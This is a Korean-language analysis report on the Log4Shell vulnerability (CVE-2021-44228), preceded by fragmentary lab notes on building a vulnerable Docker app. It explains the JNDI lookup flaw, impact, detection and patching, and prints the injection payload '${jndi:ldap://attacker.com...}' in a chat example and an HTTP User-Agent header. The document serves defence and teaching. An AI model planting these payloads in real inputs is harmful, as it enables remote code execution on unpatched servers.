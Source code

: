 이글루코퍼레이션 원치현 Log4shell 분석보고서

# Log4shell
CVE-2021-44228
Log4j 아파치 재단의 무료오픈소스 java기반의 모든 애플가능 다양한 자바 기반 서비스 로그 기록 JDNI데이터및 객체를 발견 참고하기위한 자바 LDAP1389 Lookup JNDI를 통해 찾은 자원을 사용하는 기능

취약서버 구동 도커이미지파일 다운로드
Asudo git clone 
sudo docker build . -t vulnerable-app
새로 생성할 이미지를 vulnerable-app으로 현재 디렉토리에 도커 이미지 build 생성

github.com/welk

미사용 취약한 서버 종료
docker ps -a 실행중인 도커이미지 전체 확인
docker container 아이디 확인

# Log4Shell (CVE-2021-44228) 분석 보고서

## 1. 개요
**Log4Shell(CVE-2021-44228)**은 Apache Log4j 라이브러리에서 발견된 **원격 코드 실행(RCE, Remote Code Execution)** 취약점입니다.  
공격자는 악성 페이로드를 이용하여 **임의의 코드를 실행**할 수 있으며, 광범위한 피해를 초래할 수 있습니다.

본 보고서는 Log4Shell의 원리, 영향, 악용 사례, 탐지 및 대응 방법을 분석합니다.

---

## 2. 취약점 개요

| 항목 | 설명 |
|------|------|
| **취약점명** | Log4Shell |
| **CVE 번호** | CVE-2021-44228 |
| **취약점 유형** | 원격 코드 실행(RCE) |
| **영향을 받는 버전** | Log4j 2.0-beta9 ~ 2.14.1 |
| **패치된 버전** | Log4j 2.15.0 이상 |
| **공격 난이도** | 낮음 (간단한 문자열 입력만으로 악용 가능) |
| **심각도** | 🔥 치명적 (CVSS 10.0) |

---

## 3. 취약점 원리
Log4Shell은 **JNDI(Java Naming and Directory Interface) 룩업 기능의 취약점**을 이용하여 공격자가 원격 서버에서 악성 코드를 실행할 수 있도록 합니다.

### 3.1 공격 흐름
1. 공격자는 악성 문자열을 포함한 로그 메시지를 애플리케이션에 전달.
2. Log4j가 로그를 기록하는 과정에서 **JNDI Lookup을 실행**.
3. JNDI가 LDAP, RMI 등의 원격 서버에서 데이터를 조회.
4. 공격자의 서버에서 악성 Java 클래스 로드 및 실행.
5. **원격 코드 실행(RCE) 발생**.

### 3.2 공격 코드 예제
공격자는 다음과 같은 문자열을 로그에 남기기만 해도 취약점을 악용할 수 있습니다.

```java
${jndi:ldap://attacker.com:1389/exploit}
4. 영향 범위
Log4Shell 취약점은 Log4j를 사용하는 수많은 기업 및 서비스에 영향을 미쳤습니다.

4.1 취약한 주요 서비스 및 시스템
클라우드 서비스: AWS, Google Cloud, Microsoft Azure
기업 애플리케이션: Apache Struts, ElasticSearch, VMware vCenter
게임 서버: Minecraft, Steam
각종 웹 애플리케이션 및 서버: Spring Boot, Tomcat 등
5. 악용 사례 및 공격 예시
5.1 Minecraft 서버 공격
공격자는 Minecraft 채팅창에 다음 문자열을 입력하여 서버를 장악할 수 있었습니다.
shell
복사
편집
${jndi:ldap://attacker.com:1389/exploit}
서버가 이를 로그에 기록하면, JNDI Lookup을 통해 공격자의 서버에서 악성 코드가 실행됨.
5.2 웹 애플리케이션 공격
HTTP 요청의 User-Agent, Referer, X-Forwarded-For 등 로그에 기록되는 필드에 악성 페이로드를 삽입.
예제:
css
복사
편집
GET / HTTP/1.1
Host: victim.com
User-Agent: ${jndi:ldap://malicious.com:1389/exploit}
6. 탐지 및 대응 방안
6.1 취약점 탐지 방법
✅ 보안 스캐너 활용

log4j-scan (https://github.com/fullhunt/log4j-scan)
log4shell-detector (https://github.com/Neo23x0/log4shell-detector)
✅ 로그 파일 점검

로그에서 ${jndi:ldap://...} 같은 패턴이 발견되면 즉시 대응 필요.
✅ 네트워크 모니터링

비정상적인 LDAP, RMI 요청이 있는지 점검.
6.2 대응 방법
✅ 즉시 조치

Log4j 2.15.0 이상 버전으로 업그레이드.
Java 실행 시 환경 변수 설정:
shell
복사
편집
-Dlog4j2.formatMsgNoLookups=true
방화벽 및 IDS/IPS에서 jndi:ldap:// 패턴 차단.
✅ 장기적인 보안 조치

JNDI 사용 제한 및 보안 정책 강화.
WAF(Web Application Firewall) 적용.
주기적인 보안 점검 및 취약점 스캐닝 수행.
7. 패치 및 해결 방법
Log4j 버전	대응 조치
2.0-beta9 ~ 2.14.1	취약, 업데이트 필요
2.15.0	기본적으로 JNDI Lookup 비활성화
2.16.0	JNDI 기능 완전 제거
2.17.0	추가적인 보안 강화 조치
✅ 최신 버전(2.17.1 이상)으로 업데이트 권장!

8. 결론
Log4Shell(CVE-2021-44228)은 최근 몇 년간 가장 심각한 보안 취약점 중 하나로 평가됩니다.
✅ 취약한 시스템을 신속하게 패치하고, 지속적인 보안 모니터링을 수행하는 것이 필수적입니다.
✅ Log4j를 사용하는 모든 애플리케이션에서 보안 점검을 수행해야 합니다.

9. 참고 자료
Apache Log4j 공식 보안 권고문
NIST National Vulnerability Database (CVE-2021-44228)
log4j-scan (GitHub)

